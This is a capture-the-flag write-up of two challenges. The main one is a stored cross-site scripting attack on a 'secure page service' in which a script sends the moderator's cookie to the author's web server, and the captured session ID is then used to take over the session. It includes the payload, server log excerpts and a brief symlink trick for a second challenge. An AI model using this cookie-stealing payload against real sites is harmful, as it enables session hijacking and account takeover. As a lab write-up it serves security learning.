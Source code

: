 
Secure Page Service
-------------------

So, off the bat we are told that there is a "secure page service" (similar to something like pastebin) and we want to read the page with the ID 43440b22864b30a0098f034eaf940730ca211a55. The page is password protected, and can only be read by a moderator.

When we check out the SPS, we see that it wants us to register, so I signed up with some bogus information, and moved on.

The page which allows you to create a "page" is where the vulnerability  is. We can quickly test if the page
is vulnerable to [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) with the following code:

```bash
<html>
<script>
alert("XSS")
</script>
</html>
```
Yup, so now we need to become a moderator, to access the page that wants a password.
[Some quick reading](http://www.12robots.com/index.cfm/2010/9/14/Whats-Possible-with-XSS--Security-Series-81)
gave me insight as to how I could become a moderator, I would have to steal their Php Session ID, which is stored in a cookie.

```bash
<html>
<img name="xss">
<script>
document.xss.src = "davidej.com/1.jpg/?key=" + document.cookie;
</script>
<html>
```
This would force the page to make a request to my web server. Javascript would then append the value of that cookie to the URL. Submit the page,
I looked at my own page, and then checked my logs (on my webserver)
(an excerpt)
```bash
"GET /1.jpg/?key=PHPSESSID=dfc4ss0muj21bqmfdk1uaquvn5 HTTP/1.1"
```
So I was able to grab my own session ID, now I needed to get the moderator's. Luckily enough, they had a handy "report to moderator" button. Clicked that, and checked logs again.
```bash
"GET /1.jpg/?key=PHPSESSID=2frdk2lni2k8bb71i5eojccmf7 HTTP/1.1"
```
So now that I have a moderator's session ID, I (to the website atleast) am him. I just need to modify the PHPSESSID cookie (I used Firebug, you could use something like edit this cookie, or tons of other tools).
Now, I am a moderator, I just nagivate to page 43440b22864b30a0098f034eaf940730ca211a55, and there is the flag, wow_cross_site_scripting_is_such_web

What_the_flag
-------------
This challenge was especially fun, because while I do know the way this was supposed to be solved, I was able to find a different way. The solution I used was similar to an earlier challenge. The real way to solve this was to cause a buffer overflow, and cause not_the_flag.txt to be flag.txt. On the shell, your user has write access to single directory, home, or ~. I just [symlinked](https://en.wikipedia.org/wiki/Symbolic_link) not_the_flag.txt to ~/flag.txt and did the same for the binary.
